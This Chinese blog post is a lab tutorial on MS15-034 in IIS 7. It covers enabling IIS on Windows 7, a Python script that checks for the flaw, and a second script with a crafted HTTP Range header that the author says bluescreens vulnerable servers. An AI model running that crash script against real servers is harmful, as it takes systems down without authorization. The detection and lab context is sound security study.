 ```yaml
---
title: "检测ms15-034的微软的iis漏洞"
date: 2015-04-19T00:00:00+0800
lastmod: 2015-04-19T00:00:00+0800
draft: false
keywords: ["ms15-034","iis漏洞","微软"]
tags:  ["ms15-034","iis漏洞","微软"]
description: "本文主要教大家怎么检测iis7的ms15-034漏洞"
categories: ["漏洞分析与收集"]
tags: ["ms15-034","iis漏洞","微软"]
---
```


## win 7 打开iis 7服务

进入win 7的控制面板，选择打开或关闭Windows功能,如下图:

![1](/imgs/iis7漏洞/1.jpg)

出现windows功能选项，选择下面的选项就会开启iis7服务:

![2](/imgs/iis7漏洞/2.jpg)

开启成功后，直接在开始里面输入iis,打开internet信息服务(IIS)管理器,如下图可以看到default网站已经启动，直接访问网址就可以得到iis7经典界面了！

![3](/imgs/iis7漏洞/3.jpg)
![4](/imgs/iis7漏洞/4.png)

## 攻击代码

用下面代码检测是否存在漏洞

```
⇒  python vul.py 172.16.69.67
[*] Audit Started
[!!] Looks VULN
```

```python
'''
___.                                   .___ __                         __  
\_ |__   ____ ___.__. ____   ____    __| _//  |________ __ __  _______/  |_
| __ \_/ __ <   |  |/  _ \ /    \ / __ |\  __\_  __ \ |  \/  ___/\  __\
| \_\ \ ___/\___  (  <_> )   |  \/ /_/ | |  |  |  | \/  |  /\___ \ |  |  
|___  /\___  > ____|\____/|___|  /\____ | |__|  |__|  |____//____  > |__|  
    \/     \/\/                \/      \/                        \/        
                                                           MS15-034 Checker
 
Danger! This script has not been properly qa'd and will probably fail in terrible ways.
It is based off a change in HTTP!UlpParseRange in which an error code is returned as a
result of a call to HTTP!RtlULongLongAdd when evaluating the upper and lower range of
an HTTP range request.
-BF
 
 
8a8b2112 56              push    esi
8a8b2113 6a00            push    0
8a8b2115 2bc7            sub     eax,edi
8a8b2117 6a01            push    1
8a8b2119 1bca            sbb     ecx,edx
8a8b211b 51              push    ecx
8a8b211c 50              push    eax
8a8b211d e8bf69fbff      call    HTTP!RtlULongLongAdd (8a868ae1) ; here
 
'''
import socket
import random
import sys
 
ipAddr=sys.argv[1]
hexAllFfff = "18446744073709551615"
 
req1 = "GET / HTTP/1.0\r\n\r\n"
req = "GET / HTTP/1.1\r\nHost: stuff\r\nRange: bytes=0-" + hexAllFfff + "\r\n\r\n"
 
print "[*] Audit Started"
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req1)
boringResp = client_socket.recv(1024)
if "Microsoft" not in boringResp:
    print "[*] Not IIS"
client_socket.close()
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req)
goodResp = client_socket.recv(1024)
if "Requested Range Not Satisfiable" in goodResp:
    print "[!!] Looks VULN"
elif " The request has an invalid header name" in goodResp:
    print "[*] Looks Patched"
else:
    print "[*] Unexpected response, cannot discern patch status"

```


用下面的代码可以将存在漏洞的机子蓝屏，不过有时会出现`socket.error: [Errno 54] Connection reset by peer`错误,没事多运行几次就成功了。

```python
import socket
import random
import sys
 
ipAddr = sys.argv[1]
port = 80
hexAllFfff  = "18446744073709551615"
 
print "[*] Audit Started"
req1 = "GET / HTTP/1.0\r\n\r\n"
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req1)
boringResp = client_socket.recv(1024)
if "Microsoft" not in boringResp:
    print "[*] Not IIS"
    exit(0)
client_socket.close()
 
req = "GET /welcome.png HTTP/1.1\r\nHost: stuff\r\nRange: bytes=2-" + hexAllFfff + "\r\n\r\n"
 
client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect((ipAddr, 80))
client_socket.send(req)
goodResp = client_socket.recv(1024)
if "Requested Range Not Satisfiable" in goodResp:
    print "[!!] Looks VULN"
elif " The request has an invalid header name" in goodResp:
    print "[*] Looks Patched"
else:
    print "[*] Unexpected response, cannot discern patch status"
```
运行上面的代码

```
python vul.py 172.16.69.67
```
成功后的留念,这两段代码的主要区别在于**bytes后面的数字**:

![5](/imgs/iis7漏洞/5.jpg)

今天还学会了新招了,要找漏洞相关的信息可以到twitter上直接搜索ms15-034就可以搜到很多大牛写的分析文档了。

### 参考
1. [IIS服务器漏洞（MS15-034）威胁分析](http://security.alibaba.com/blog/blog.htm?spm=0.0.0.0.lOZTaW&id=16)
2. [IIS 系列 Http.sys 处理 Range 整数溢出漏洞 应急分析报告](http://blog.knownsec.com/2015/04/iis_cve-2015-1635/)
3. [MS15-034/CVE-2015-1635 HTTP远程代码执行漏洞分析](http://blogs.360.cn/blog/cve_2015_6135_http_rce_analysis/)
4. [The Delicate Art of Remote Checks – A Glance Into MS15-034](http://blog.beyondtrust.com/the-delicate-art-of-remote-checks-a-glance-into-ms15-034)
5. [An Analysis Of MS15-034](http://www.securitysift.com/an-analysis-of-ms15-034/)
